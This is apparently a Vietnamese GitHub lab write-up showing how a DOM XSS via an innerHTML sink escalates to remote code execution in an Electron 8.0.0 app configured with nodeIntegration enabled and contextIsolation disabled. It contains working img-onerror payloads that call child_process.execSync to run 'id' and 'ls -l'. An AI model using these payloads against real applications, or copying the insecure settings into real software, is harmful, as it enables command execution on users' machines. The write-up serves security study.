 # RCE-to-XSS-Electron-8.0.0


Ứng dụng Electron 8.0.0 là một phiên bản cũ của Electron, được sử dụng để xây dựng các ứng dụng desktop chéo nền tảng (cross-platform) bằng công nghệ web như JavaScript, HTML và CSS. 

Mặc dù mang lại nhiều lợi ích bằng việc cho phép phát triển các ứng dụng desktop ngang hàng với web bằng JavaScript, HTML, và CSS, nhưng cũng tiềm ẩn rủi ro về bảo mật, cụ thể là lỗ hổng XSS đến RCE (Remote Code Execution).

Tổng quan : XSS to RCE

Setup 
  Sử dụng Electron 8.0.0 open source 
  URL Download : https://github.com/standardnotes/desktop/archive/v2.0.0.tar.gz
 
  Commands
```
wget https://github.com/standardnotes/desktop/archive/v2.0.0.tar.gz
tar xvfz v2.0.0.tar.gz
cd desktop-2.0.0/
npm audit
```
![1](https://github.com/Lilly-dox/Exploit-CVE-2023-22518/assets/130746941/47051781-9a54-4831-8142-e6b165d3b16c)

Chúng ta nhận được output :
```
npm ERR! code ENOLOCK
npm ERR! audit This command requires an existing lockfile.
npm ERR! audit Try creating one first with: npm i --package-lock-only
npm ERR! audit Original error: loadVirtual requires existing shrinkwrap file

npm ERR! A complete log of this run can be found in:
npm ERR!     /home/lilly-dox/.npm/_logs/2024-03-20T15_39_01_845Z-debug-0.log
```
Như lỗi trên hiển thị, chúng ta phải tạo tệp pack-lock.json, sử dụng lệnh được cung cấp trong báo lỗi để xử lý 
```
npm i --package-lock-only
```
sau đó chạy lại command :
```
npm audit
```
![2](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/cd2349ca-7629-42b6-bbe5-6d69c97d7425)

XSS to RCE
Download the first vulnerability file :
<file vulnerable1.zip>

File : 
vulnerable1/main.js
![3](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/4a7efd61-c551-4b04-9c42-72ebdbd4222f)

Như đã thấy :
1. `nodeIntegration` được bật (`nodeIntegration: true`)**:
    - Cài đặt này cho phép các quy trình kết xuất (tức là các trang web) tự do sử dụng API Node.js. Mặc dù việc kích hoạt tính năng này có thể thuận tiện cho các nhà phát triển nhưng nó làm tăng đáng kể rủi ro bảo mật. Nếu kẻ tấn công khai thác lỗ hổng XSS (Cross-Site Scripting) trong ứng dụng của bạn, chúng có thể sử dụng API Node.js để thực hiện các hành động độc hại trên hệ thống của người dùng, chẳng hạn như đọc/ghi tệp hoặc thực thi lệnh, dẫn đến Mã từ xa Lỗ hổng thực thi (RCE).
2. `contextIsolation` bị tắt (`contextIsolation: false`)**:
    - Cách ly bối cảnh là một tính năng bảo mật giúp tách bối cảnh JavaScript của trang được tải khỏi bối cảnh JavaScript của API Electron và tập lệnh tải trước. Bằng cách tắt tính năng này, bạn cho phép cả tập lệnh của trang và API Electron chia sẻ cùng một ngữ cảnh JavaScript. Lỗ hổng XSS trong trường hợp này có thể khiến kẻ tấn công xác định lại các nguyên mẫu tích hợp sẵn để giả mạo chức năng của ứng dụng hoặc giành quyền truy cập vào các API nhạy cảm.

File:
renderer.js
 ![4](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/fe5546a0-8657-437a-b3b6-1167166ac820)


 Nhận diện có innerHTML sink -> DOM XSS in innerHTML sink 

Khai thác :
 Dựng vulnerable1 lên để khai thác
 Commands:
 ```
 cd /path/to/vulnerable1
 npm install
 npm start
```
![5](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/0fde2e41-b063-472b-a976-925dadbc6806)

Sau khi start :

![6](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/4041753a-dbf7-4d33-b79c-6fdf1b70ca78)

Payloads :
```
test <img src=x onerror=alert("XSS")>
```
![7](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/57a12b6f-4691-46f8-8841-f3f067992d80)

```
<img src=x onerror="alert(require('child_process').execSync('id').toString());"> 
```
![8](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/901d21ef-5400-4c16-955f-d063213abd26)

```
<img src=x onerror="alert(require('child_process').execSync('ls -l').toString());">
```
![9](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/e0859aa1-ac5e-4189-ad9f-77f706a640d1)




